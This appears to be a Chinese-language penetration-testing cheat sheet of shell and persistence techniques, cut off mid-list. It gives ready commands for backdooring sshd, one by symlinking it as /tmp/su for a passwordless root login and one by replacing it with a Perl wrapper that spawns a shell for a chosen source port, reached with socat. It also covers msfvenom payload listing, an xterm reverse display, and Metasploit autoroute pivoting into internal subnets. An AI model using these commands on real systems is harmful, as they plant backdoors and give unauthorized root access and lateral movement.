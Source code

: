 利用sshd反弹shell

* * *

方法一：

```
`1. 靶机执行：ln -sf /usr/sbin/sshd /tmp/su;/tmp/su -oPort=8080;` `2. 攻击机执行：ssh root@目标 -p 设置的端口 需要密码`
```

方法二：

1. 靶机执行：

```
`cd /usr/sbin/` `mv sshd ../bin/` `echo '#!/usr/bin/perl' >sshd` `echo 'exec "/bin/sh" if (getpeername(STDIN) =~ /^..4A/);' >>sshd` `echo 'exec {"/usr/bin/sshd"} "/usr/sbin/sshd",@ARGV,' >>sshd` `chmod u+x sshd` `/etc/init.d/sshd restart`
```

2. 攻击机执行：

```
socat STDIO TCP4:192.168.1.129:22,sourceport=13377
```

MSF 反弹shell 一句话  

* * *

msfvenom -l payloads | grep "cmd/unix"|awk '{print $1}'

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

xterm下反弹

* * *

*   靶机运行 xterm -display 目标地址:1
    
*   接收方运行 xnest :1
    

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

Metasploit穿透双层网络

* * *

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

攻击机通过两层跳板，对192.168.12.0/24网络进行扫描

1. 攻击机获得双网卡主机A的meterpreter会话

2. 执行命令，创建路由规则，只要会话不断开Metasploit框架就可以访问192.168.11.0/24网段

```
meterpreter> run autoroute -s 192.168.11.0/24
```

3. 配置流量转发代理
